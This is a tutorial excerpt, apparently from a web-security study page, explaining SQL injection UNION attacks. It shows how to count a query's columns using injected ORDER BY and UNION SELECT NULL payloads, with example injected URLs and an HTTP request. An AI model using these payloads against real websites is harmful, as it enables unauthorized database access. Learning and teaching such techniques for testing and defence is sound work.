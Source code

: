 
Example:
- This `UNION` statement will provide the broker names in list of brokers in the ﬁrst query and the records from the table containing the name of banks providing brokerage services from the UNION statement.

  ```sql
  SELECT Broker FROM BrokerList
  WHERE 1 = 1 UNION ALL SELECT Broker FROM BanksList WHERE 1 = 1;
  ```

---

#### `UNION` attack - Find number of columns

When performing an SQL injection `UNION` attack, there are two effective methods to determine how many columns are being returned from the original query.

The first method
- injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs.
- For example, assuming the injection point is a quoted string within the `WHERE` clause of the original query, you would submit:

```sql
' ORDER BY 1 --
' ORDER BY 2 --
' ORDER BY 3 --
etc.

https://abc.net/filter?category=Lifestyle
https://abc.net/filter?category=Lifestyle' ORDER BY 3--
```

- This series of payloads modifies the original query to order the results by different columns in the result set.
  - The column in an `ORDER BY` clause can be specified by its index, so you don't need to know the names of any columns.
  - When the specified column index exceeds the number of actual columns in the result set, the database returns an error, such as:
  - `The ORDER BY position number 3 is out of range of the number of items in the select list.`
- The application might actually return the database error in its HTTP response, or it might return a generic error, or simply return no results.
- Provided you can detect some difference in the application's response, you can infer how many columns are being returned from the query.



The second method
- submitting a series of `UNION SELECT` payloads specifying a different number of null values:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.

GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
```
